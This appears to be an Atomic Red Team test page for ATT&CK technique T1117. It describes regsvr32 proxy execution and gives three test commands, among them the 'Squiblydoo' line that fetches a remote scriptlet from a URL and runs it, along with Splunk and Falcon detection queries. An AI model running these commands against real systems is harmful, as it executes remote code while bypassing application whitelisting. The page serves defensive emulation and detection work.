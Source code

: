 # T1117 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)
<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: SubTee Regsvr32 Whitelisting Bypass) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via Component Object Model Hijacking. (Citation: Carbon Black Squiblydoo Apr 2016)

Detection: Use process monitoring to monitor the execution and arguments of regsvr32.exe. Compare recent invocations of regsvr32.exe with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity. Command arguments used before and after the regsvr32.exe invocation may also be useful in determining the origin and purpose of the script or DLL being loaded. (Citation: Carbon Black Squiblydoo Apr 2016)

Platforms: Windows

Data Sources: Loaded DLLs, Process monitoring, Process command-line parameters, Windows Registry

Defense Bypassed: Process whitelisting, Anti-virus

Permissions Required: User, Administrator

Remote Support: No

Contributors: Casey Smith</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | Regsvr32.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{filename} scrobj.dll
```
### Detection
#### Splunk
```python
source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventDescription="Process Create" parent_process="*Windows\\System32\\regsvr32.exe" ParentCommandLine IN ("*/i:*", "*scrobj.dll*") AND ParentCommandLine!="*http*"
| rex field=ParentCommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| rename process AS suspicious_process
| eval detectID="ART-T1117-1"
| table detectID _time User ParentCommandLine suspicious_process CommandLine sct_file
```
#### Falcon Host
```python
event_simpleName IN (SyntheticProcessRollup2, ProcessRollup2) ImageFileName="*Windows\\\System32\\\\regsvr32.exe" CommandLine IN ("*/i:*", "*scrobj.dll*") AND CommandLine!="*http*"
| rex field=CommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| eval ParentProcess=ImageFileName
| eval ParentCLI=CommandLine
| eval ParentUser=UserName
| rename TargetProcessId_decimal AS ParentProcessId_decimal
| join ParentProcessId_decimal 
	[search event_simpleName IN (SyntheticProcessRollup, ProcessRollup2)
	| eval ChildProcess=ImageFileName
	| eval ChildCLI=CommandLine
	| eval ChildUser=UserName]
| eval detectID="ART-T1117-1"
| table detectID _time ParentUser ParentCLI ChildProcess ChildCLI sct_file
```
#### ELK
<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | http://www.example.com/file.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{url} scrobj.dll
```
### Detection
#### Splunk
```python
source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventDescription="Process Create" parent_process="*Windows\\System32\\regsvr32.exe" ParentCommandLine IN ("*/i:http*", "*scrobj.dll*")
| rex field=ParentCommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| eval detectID="ART-T1117-2"
| table detectID _time User ParentCommandLine process CommandLine sct_file
```
#### Falcon Host
```python
event_simpleName IN (SyntheticProcessRollup2, ProcessRollup2) ImageFileName="*Windows\\\System32\\\\regsvr32.exe" CommandLine IN ("*/i:http*", "*scrobj.dll*")
| rex field=CommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| eval ParentProcess=ImageFileName
| eval ParentCLI=CommandLine
| eval ParentUser=UserName
| rename TargetProcessId_decimal AS ParentProcessId_decimal
| join ParentProcessId_decimal 
	[search event_simpleName IN (SyntheticProcessRollup, ProcessRollup2)
	| eval ChildProcess=ImageFileName
	| eval ChildCLI=CommandLine
	| eval ChildUser=UserName]
| eval detectID="ART-T1117-2"
| table detectID _time ParentUser ParentCLI ChildProcess ChildCLI sct_file
```
#### ELK
<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | payload.dll|

#### Run it with `command_prompt`!
```
regsvr32.exe #{dll_name}
```
<br/>
